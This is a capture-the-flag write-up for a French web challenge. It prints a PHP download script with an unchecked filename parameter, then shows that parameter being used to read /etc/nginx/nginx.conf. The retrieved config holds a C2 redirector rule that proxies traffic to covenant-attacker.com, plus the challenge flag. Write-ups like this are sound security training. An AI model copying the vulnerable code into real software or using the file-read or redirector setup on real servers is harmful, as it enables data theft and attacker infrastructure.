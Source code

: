 # Un Chasseur sachant chasser


- Started on: 2022-11-24
- Last Modified: 2022-11-24

---
- CorentinGoet 
- corentin.goetghebeur@ensta-bretagne.org

---
Challenge Info:
- Category: Web
- Difficulty: Easy
- Score: 50 points

---

## Challenge
Des analystes SOC du _Ministère des Armées_ ont remarqué des flux suspects provenant de machines internes vers un site vitrine d'une entreprise. Pourtant ce site semble tout à fait légitime.

Vous avez été mandaté par la _Direction Générale de l'Armement_ pour mener l'enquête. Trouvez un moyen de reprendre partiellement le contrôle du site web afin de trouver comment ce serveur joue un rôle dans l'infrastructure de l'acteur malveillant.

Aucun fuzzing n'est nécessaire.

Le flag se trouve sur le serveur à l'endroit permettant d'en savoir plus sur l'infrastructure de l'attaquant.

## Write-Up

For this challenge, the PHP script used to download the menu is vulnerable. It allows to download any existing file from the server.

For example, we can download the source code of the php download script.

```php
<?php
# Got it from : https://linuxhint.com/download_file_php/
#Â Should be safe uh ?
if(isset($_GET['menu'])){
    //Read the filename
    $filename = $_GET['menu'];
    //Check the file exists or not
    if(file_exists($filename)) {

        //Define header information
        header('Content-Description: File Transfer');
        header('Content-Type: application/octet-stream');
        header("Cache-Control: no-cache, must-revalidate");
        header("Expires: 0");
        header('Content-Disposition: attachment; filename="'.basename($filename).'"');
        header('Content-Length: ' . filesize($filename));
        header('Pragma: public');

        //Clear system output buffer
        flush();

        //Read the size of the file
        readfile($filename, true);

        //Terminate from the script
        die();

    } else{
        echo "File does not exist.";
    }

} else {
    echo "Filename is not defined.";
}
```

The challenge says that the flag is on the file that gives information about the infrastructure of the server. Since the target uses Nginx as server, a quick Google search tells us the config file for it is :*/etc/nginx/nginx.conf*

We can try to download it using the url:

[...]/download.php?menu=/etc/nginx/nginx.conf 

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 24 Nov 2022 16:26:03 GMT
Content-Type: application/octet-stream
Content-Length: 2688
Connection: close
Content-Description: File Transfer
Cache-Control: no-cache, must-revalidate
Expires: 0
Content-Disposition: attachment; filename="nginx.conf"
Pragma: public

worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {

    include mime.types;
    default_type application/octet-stream;

    # Define custom log format to include reponse times
    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    server_tokens off;

    keepalive_timeout 65;

    # Write temporary files to /tmp so they can be created as a non-privileged user
    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    # Default server definition

    server {

        listen 80 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;

        root /var/www/html;
        index index.html;

        location / {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            try_files $uri $uri/ /index.php?q=$uri&$args;
        }

        # Redirect server error pages to the static page /50x.html
        error_page 500 502 503 504 /50x.html;
        location = /50x.html {
            root /var/lib/nginx/html;
        }

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass unix:/run/php-fpm.sock;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param SCRIPT_NAME $fastcgi_script_name;
            fastcgi_index index.php;
            include fastcgi_params;
        }

        # Deny access to . files, for security
        location ~ /\. {
            log_not_found off;
            deny all;
        }

        # Website Acquisition : done.
        # This rule is to become our redirector c2.
        # Covenant 0.5 works on a Linux docker.
        # The GRUNT port must be tcp/8000-8250.
        # DGHACK{L3s_D0ux_Burg3r5_se_s0nt_f4it_pwn_:(}
        location ^~ /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72 {
            limit_except GET POST PUT { deny all; }
            rewrite /1d8b4cf854cd42f4868849c4ce329da72c406cc11983b4bf45acdae0805f7a72/(.*) /$1  break;
            proxy_pass https://covenant-attacker.com:7443;
        }
    }
}
```

And we find the flag in this file.

